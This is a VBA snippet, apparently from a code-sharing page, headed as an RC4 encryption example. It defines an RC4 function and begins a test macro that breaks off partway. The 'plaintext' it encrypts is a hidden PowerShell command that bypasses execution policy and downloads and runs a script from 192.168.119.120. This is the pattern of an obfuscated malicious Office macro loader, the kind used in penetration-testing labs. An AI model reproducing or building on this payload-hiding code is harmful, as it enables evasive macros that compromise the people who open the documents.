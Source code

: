 ### RC4 Encryption example

```vb
Function RC4ByteArray(key() As Byte, data() As Byte) As Byte()
    Dim S(255) As Integer
    Dim t(255) As Integer
    Dim i As Integer, j As Integer, l As Integer
    
    Dim temp As Integer
    Dim keystream As Integer
    Dim k As Long
    Dim dataLength As Long
    Dim output() As Byte
    
    dataLength = UBound(data) - LBound(data) + 1
    ReDim output(LBound(data) To UBound(data))
    
    ' Initialize S and T
    For i = 0 To 255
        S(i) = i
        t(i) = key(i Mod (UBound(key) - LBound(key) + 1)) ' Key Scheduling
    Next i
    
    ' Initial permutation of S
    j = 0
    For i = 0 To 255
        j = (j + S(i) + t(i)) Mod 256
        temp = S(i)
        S(i) = S(j)
        S(j) = temp
    Next i
    
    ' Perform the encryption/decryption
    i = 0
    j = 0
    
    For k = LBound(data) To UBound(data)
        i = (i + 1) Mod 256
        j = (j + S(i)) Mod 256
        temp = S(i)
        S(i) = S(j)
        S(j) = temp
        l = (S(i) + S(j)) Mod 256
        keystream = S(l)
        output(k) = data(k) Xor keystream
    Next k
    
    RC4ByteArray = output
End Function

Sub TestRC4Macro()
    Dim key As String
    Dim plaintext As String
    Dim ciphertext() As Byte
    Dim decrypted() As Byte
    Dim keyBytes() As Byte
    Dim plaintextBytes() As Byte
    
    ' Example key and plaintext
    key = "mysecretkey"
    plaintext = "powershell -exec bypass -nop -w hidden -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run.txt'))"
    
```